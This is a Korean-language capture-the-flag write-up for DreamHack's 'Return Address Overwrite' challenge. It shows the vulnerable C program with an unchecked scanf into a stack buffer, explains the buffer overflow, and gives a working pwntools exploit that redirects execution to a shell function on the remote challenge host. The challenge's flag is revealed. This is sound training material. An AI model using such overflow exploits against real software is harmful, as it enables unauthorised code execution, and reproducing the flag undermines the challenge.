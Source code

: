 # [DreamHack] Return Address Overwrite

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Return Address Overwrite에서 실습하는 문제입니다.
>
> Release: [Return Address Overwrite.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8537824/Return.Address.Overwrite.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159480790-43a7b771-fede-4355-ba6b-967e57e38258.png)

## Analysis

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

`scanf("%s", buf)`에서 BOF가 발생한다. `main()`의 return address를 `get_shell()`로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/rao')
else:
    r = remote('host2.dreamhack.games', 24292)

get_shell = 0x4006aa # get_shell()

r.sendlineafter('Input: ', b'a' * 0x38 + p64(get_shell))

r.interactive()
```

```
[+] Opening connection to host2.dreamhack.games on port 24292: Done
[*] Switching to interactive mode
$ cat flag
DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}
```